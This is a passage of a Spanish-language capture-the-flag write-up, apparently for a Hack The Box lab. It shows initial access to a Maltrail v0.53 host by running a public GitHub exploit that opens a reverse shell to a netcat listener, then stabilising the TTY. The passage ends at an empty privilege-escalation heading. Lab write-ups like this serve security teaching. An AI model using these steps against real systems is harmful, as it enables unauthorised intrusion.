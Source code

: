 ## Web Exploitation

He usado este `exploit` [https://github.com/spookier/Maltrail-v0.53-Exploit](https://github.com/spookier/Maltrail-v0.53-Exploit) para ganar `acceso` a la máquina víctima. Lo primero que debemos hacer es ponernos en `escucha` con `netcat`

```
#  nc -nlvp 1234
```

`Ejecutamos` el `exploit`

```
# python3 exploit.py 10.10.16.29 1234 http://10.129.155.57:55555/bydkk46 
Running exploit on http://10.129.155.57:55555/bydkk46/login
```

`Ganamos acceso` a la `máquina víctima`

```
# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.16.29] from (UNKNOWN) [10.129.155.57] 40162
$ whoami
whoami
puma
```

Vamos a `realizar` el `tratamiento` a la `TTY`, para ello obtenemos las `dimensiones` de nuestra `pantalla`

```
# stty size
45 18
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```

## Privilege Escalation
